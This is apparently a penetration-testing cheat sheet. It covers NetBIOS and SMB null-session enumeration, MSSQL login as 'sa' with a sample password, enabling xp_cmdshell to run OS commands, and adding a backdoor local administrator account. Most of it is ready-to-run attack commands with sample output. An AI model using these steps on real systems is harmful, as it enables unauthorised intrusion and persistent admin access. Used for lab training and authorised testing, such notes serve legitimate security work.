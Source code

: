 ## Lookup Netbios Names

>nmblookup -A 10.11.1.31

### Example Output:

```
	DAVID           <00> -         B <ACTIVE> 
	CORP            <00> - <GROUP> B <ACTIVE> 
	DAVID           <1f> -         B <ACTIVE> 
	DAVID           <03> -         B <ACTIVE> 
	DAVID           <20> -         B <ACTIVE> 
	THINC           <1e> - <GROUP> B <ACTIVE> 
	CORP            <1d> -         B <ACTIVE> 
	..__MSBROWSE__. <01> - <GROUP> B <ACTIVE> 
```

## Connect to Share without Password


This is an FTP like client to access SMB and CIFS resources on servers
-L specifies the Netbios name
-I is destination IP
-N is no password

>  smbclient -L \\COMPUTERNAME -I 10.0.0.1 -N

### Example Output:
```
OS=[Windows Server 2003 3790 Service Pack 1] Server=[Windows Server 2003 5.2]

	Sharename       Type      Comment
	---------       ----      -------
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	ADMIN$          Disk      Remote Admin
	public_access         Disk      
OS=[Windows Server 2003 3790 Service Pack 1] Server=[Windows Server 2003 5.2]

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	
```

## Connect to specific directory

>smbclient //DAVID/public_access -I 10.11.1.31 -N

# Further Exploitation with Username and Password for MSSQL Server

## Ensure you have relevant tools installed
>apt-get install sqsh freetds-bin freetds-common freetds-dev

## Show Databases
> sqsh -S 10.0.0.1 -U sa -P fdasjkl3 -C "SELECT name FROM master.dbo.sysdatabases"

## Login to sql command line
>sqsh -S 10.0.0.1 -U sa -P fdasjkl3

## If xp_cmdshell is not turned on then you have to enable it. This requires "advanced options" to be on:
>exec sp_configure ‘show advanced options’, 1
>go
>reconfigure
>go

## Now we can turn xp_cmdshell on
>exec sp_configure ‘xp_cmdshell’, 1
>go
>reconfigure
>go

# Output directory of C:\
> xp_cmdshell 'dir C:\'


##Add a new user and put them into Administrators Group
>xp_cmdshell 'net user bob password /add'
>go
>xp_cmdshell 'net localgroup Administrators bob /add'
>go


Now login via remote desktop if you have access
